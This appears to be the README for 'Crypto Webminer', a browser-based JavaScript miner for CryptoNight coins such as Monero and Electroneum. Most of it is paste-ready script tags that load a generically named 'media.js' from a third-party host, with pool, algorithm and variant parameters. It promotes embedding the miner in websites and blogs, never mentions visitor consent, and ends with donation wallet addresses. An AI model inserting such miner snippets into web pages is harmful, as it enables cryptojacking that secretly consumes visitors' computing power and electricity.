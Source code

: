 
Crypto Webminer | Electroneum | Monero | Bytecoin | IntenseCoin | Graft | Sumokoin | Turtlecoin | DERO | Aeon | Ultranote | Masari | Stellite | Cryptonight | Cryptonight-Lite | Cryptonight-Fast | Cryptonight-Half | Custom Pool Support - Mining in your Browser

#### Use Crypto Webminer - JavaScript miner on any Stratum Pool for Cryptonight | Cryptonight-Lite | Cryptonight-Fast | Cryptonight-Half Coins

#### LiveTest - https://www.donate.crypto-webminer.com/donate.html

#### Simple Pool change: ?jason=Your_Favorite_Pool:PortNr

#### Examples: CN V8 Coins (Monero, Lethean, Graft, X-CASH) need ?algo=cn?variant=2<br> 
```sh
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=2?jason=pool.supportxmr.com:3333" > </script>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=2?jason=pool.intensecoin.com:3333" > </script>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=2?jason=graft.ingest.cryptoknight.cc:9111" > </script>
```
#### Examples: CN V7 Coins (MoneroV) need ?algo=cn?variant=1<br> 
```sh
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=1?jason=monerov.ingest.cryptoknight.cc:9221" > </script>
```
#### Examples: CN (ASIC) Coins (Electroneum, Bytecoin, Sumokoin, Dero, Xeonbit, Pennykoin, Beldex, Newton, Karbo, X12 Coin, B2Bcoin) need ?algo=cn?variant=666<br> 
```sh
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=666?jason=Your_Favorite_Pool:PortNr" > </script>
```
#### Examples: Stellite (CN-Half Coins | CN Stellite V5) (Stellite) need ?algo=cn/xtl?variant=2<br> 
```sh
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn/xtl?variant=2?jason=communitypool.stellite.cash:6677" > </script>
```
#### Examples: CN Lite V7 Coins (Aeon, TurtleCoin, BitcoiNote, BBSCoin, Triton) need ?algo=cn-lite?variant=1
```sh
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn-lite?variant=1?jason=mine.supportaeon.com:3333" > </script>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn-lite?variant=1?jason=Pool.TRTL.CryptoPool.Space:5555" > </script>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn-lite?variant=1?jason=alpha.ultranote.org:5555" > </script>
```
#### Examples: NXstream (neweset Turtle V2 fork) need ?algo=cn-lite?variant=2
```sh
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn-lite?variant=2?jason=pool.nxstream.io:3333" > </script>
```
#### Examples: CN Fast V2 Coins (Masari) need ?algo=cn/msr?variant=2<br> 
```sh
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn/msr?variant=2?jason=masari.ingest.cryptoknight.cc:3333" > </script>
```
#### Examples: CN Fast Coins (Conceal, Electronero) need ?algo=cn/msr?variant=1<br> 
```sh
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn/msr?variant=1?jason=Your_Favorite_Pool:PortNr" > </script>
```
<br><br> 
Or use our integration for websites & blogs
https://www.crypto-webminer.com/integrate.html
<br><br> 
Join Discord Chat
https://discord.gg/nnARdpc
  
<br><br> 
We take a 1% developer fee<br><br> <br><br> 
## Donate Anonymously by BTC or XMR
«------------------------------------------------------------------------------------------------------------------------------------»

Cryptocurrency Webminer

https://www.crypto-webminer.com/

You want EXTRA ETN Coins and if you like my service, you can support me by using this qr code (manuel code: CECFDE) with Official Electroneum App

Crypto Webminer Bitcoin (BTC) Address

3FMScNyRqJHjiL72oj2AW9D95jdNRFzTWq

Crypto Webminer Monero (XMR) Address

42dQk2eRxJLYQMLX93RB8idQ15FxLDC2yHvGxHT96hBSa14ykUpd3nxiEUd5uCRyjqMJmAgqv95HnbbGiRnHSeC1S9H8KyD
«------------------------------------------------------------------------------------------------------------------------------------»
